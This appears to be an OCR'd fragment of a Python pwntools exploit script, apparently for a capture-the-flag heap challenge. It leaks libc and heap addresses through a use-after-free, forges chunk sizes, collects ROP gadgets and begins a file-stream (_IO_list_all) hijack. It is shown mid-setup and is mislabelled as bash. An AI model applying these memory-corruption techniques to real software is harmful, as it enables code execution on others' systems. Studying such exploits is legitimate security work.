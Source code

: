 ```bash
def edit(idx,content):
    choice(edit_idx)
    sla('Which one?\n',idx)
    sla('Content:\n',content)


add(0,0x500,'aaaa')
add(1,0x500,'aaaa')
delete(0)
show(0)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

delete(1)
add(2,0x420,'bbbb')
add(3,0x420,'bbbb')
add(4,0x420,'bbbb')

edit(0,'\x00'*0x420+p64(0)+p64(0x41))
edit(1,'\x00'*0x340+p64(0)+p64(0x41))

delete(3)
delete(4)
show(4)

heap_base=u64(p.recv(6)[-6:].ljust(8,'\x00'))-0x6d0
leak('heap_base',heap_base)

edit(0,'\x00'*0x420+p64(0)+p64(0x431))
edit(1,'\x00'*0x340+p64(0)+p64(0x431))

add(5,0x450,'bbbb')
add(6,0x450,'bbbb')
add(7,0x440,'bbbb')
add(8,0x440,'bbbb')
delete(5)

add(9,0x500,'bbbb')

delete(7)

pop_rdi = libc_base + next(libc.search(asm('pop rdi;ret;')))
pop_rsi = libc_base + next(libc.search(asm('pop rsi;ret;')))
pop_rdx_r12 = libc_base + next(libc.search(asm('pop rdx;pop r12;ret;')))
leave_ret = libc_base + next(libc.search(asm('leave;ret;')))

open_addr=libc.symbols['open']+libc_base
read_addr=libc.symbols['read']+libc_base
write_addr=libc.symbols['write']+libc_base
puts_addr=libc.symbols['puts']+libc_base
setcontext=libc_base+0x0000000000151990

leave_ret=libc_base+0x00000000000578c8

io_all = libc_base + libc.sym['_IO_list_all']  
wfile = libc_base + libc.sym['_IO_wfile_jumps']



lock = libc_base+0x1ee7d0    
magic_gadget = libc_base + 0x154dd0 +26
chunk0 = heap_base + 0xf20 #fake_IO
```